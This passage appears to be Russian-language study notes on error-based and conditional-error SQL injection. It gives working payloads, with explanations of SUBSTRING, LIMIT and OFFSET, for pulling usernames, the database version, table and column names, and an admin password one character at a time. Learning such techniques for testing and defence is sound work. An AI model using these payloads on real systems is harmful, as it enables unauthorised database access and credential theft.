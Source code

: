 ```
' AND 1=CAST((SELECT username FROM users LIMIT 1 OFFSET 1) AS int)-- 
```
- Этот запрос вернет вторую строку из столбца `username`.

#### Через условную ошибку

- **Логика вывода данных через синтаксическую ошибку:**
```
' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a' -- # не вызовет ошибку
' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a' -- # вызовет ошибку
```

- **1. Получение версии:**
```
' AND (SELECT CASE WHEN (SUBSTRING(@@version, 1, 1) = '5') THEN 1/0 ELSE 'a' END)='a' -- # если версия начинается с 5, вызовет ошибку
```
Пояснение: числа `1,1` в `SUBSTRING`: начальная_позиция, длина. То есть
-  1, 2:
    Извлекает 2 символа, начиная с первого символа.
    Например, для версии `5.7.35` результат будет `5.`.
-  2, 1:
	Извлекает 1 символ, начиная с второго символа.
	Например, для версии `5.7.35` результат будет `.`.


- **2. Определение таблиц:**
```
' AND (SELECT CASE WHEN (SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1), 1, 1) = 'a') THEN 1/0 ELSE 'a' END)='a' -- #
```
- `LIMIT 1` возвращает только одну таблицу (первую в списке).
- `SUBSTRING(..., 1, 1)` извлекает первый символ названия таблицы.

- **3. Определение название столбцов в бд:**
```
' AND (SELECT CASE WHEN (SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema = DATABASE() AND table_name = 'users' LIMIT 1), 1, 1) = 'a') THEN 1/0 ELSE 'a' END)='a' -- #
```
- `information_schema.columns` содержит информацию о всех столбцах в базе данных.
- `table_schema = DATABASE()` ограничивает выборку текущей базой данных.
- `table_name = 'users'` указывает на конкретную таблицу.
- `LIMIT 1` возвращает только один столбец (первый в списке).
- `SUBSTRING(..., 1, 1)` извлекает первый символ названия столбца.

- **4. Вывод данных из столбца в таблице:**
```
' AND (SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username = 'admin' LIMIT 1), 1, 1) = 'a') THEN 1/0 ELSE 'a' END)='a' -- # если первый символ пароля 'a', вызовет ошибку
```

##### Зачем нужен `LIMIT`?
**`LIMIT`** используется для ограничения количества строк, возвращаемых запросом. В контексте SQL-инъекций:
    1. **Пошаговое извлечение данных:**
        - Без `LIMIT` запрос может вернуть несколько строк, что вызовет ошибку или неоднозначность.
        - С `LIMIT 1` можно извлекать данные по одной строке за раз.
    2. **Уменьшение нагрузки:**
        - Извлечение одной строки требует меньше ресурсов и времени.
    3. **Обход ограничений:**
        - Некоторые базы данных или приложения могут блокировать запросы, возвращающие много данных.
- **Пример использования `LIMIT` и `OFFSET`:**
```
' AND (SELECT CASE WHEN (SUBSTRING((SELECT password FROM users LIMIT 1 OFFSET 0), 1, 1) = 'a') THEN 1/0 ELSE 'a' END)='a' -- #
```
- `LIMIT 1 OFFSET 0` возвращает первую строку.
- `LIMIT 1 OFFSET 1` возвращает вторую строку и т.д.
